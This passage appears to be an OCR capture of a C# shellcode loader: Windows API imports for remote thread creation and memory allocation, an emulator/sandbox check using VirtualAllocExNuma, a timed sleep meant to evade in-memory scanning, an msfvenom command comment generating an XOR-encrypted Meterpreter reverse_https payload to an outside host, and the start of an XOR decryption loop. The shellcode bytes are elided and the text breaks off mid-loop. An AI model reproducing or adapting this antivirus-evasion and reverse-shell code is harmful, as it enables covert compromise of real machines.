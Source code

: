 ```csharp
        static extern IntPtr RtlCreateUserThread(IntPtr processHandle, IntPtr threadSecurity, bool createSuspended, Int32 stackZeroBits, IntPtr stackReserved, IntPtr stackCommit, IntPtr startAddress, IntPtr parameter, ref IntPtr threadHandle, IntPtr clientId);

        [DllImport("ntdll.dll", ExactSpelling = true, SetLastError = false)]
        static extern int NtClose(IntPtr hObject);

        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

        [DllImport("kernel32.dll")]
        static extern IntPtr GetCurrentProcess();

        // BEGIN DEBUG (imports)
        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, [Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfBytesRead);

        [DllImport("msvcrt.dll", CallingConvention = CallingConvention.Cdecl)]
        static extern int memcmp(byte[] b1, byte[] b2, UIntPtr count);

        static bool CompareByteArray(byte[] b1, byte[] b2)
        {
            return b1.Length == b2.Length && memcmp(b1, b2, (UIntPtr)b1.Length) == 0;
        }
        // END DEBUG

        static void Main(string[] args)
        {
            // Check if we're in a sandbox by calling a rare-emulated API
            IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
            if (mem == null)
            {
                return;
            }

            // Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
            var rand = new Random();
            uint dream = (uint)rand.Next(10000, 20000);
            double delta = dream / 1000 - 0.5;
            DateTime before = DateTime.Now;
            Sleep(dream);
            if (DateTime.Now.Subtract(before).TotalSeconds < delta)
            {
                Console.WriteLine("Charles, get the rifle out. We're being fucked.");
                return;
            }

            // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a
            byte[] buf = new byte[???] {
            0x31,0x33,...,0x33,0x37 };

            // XOR-decrypt the shellcode
            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(buf[i] ^ (byte)'a');
```
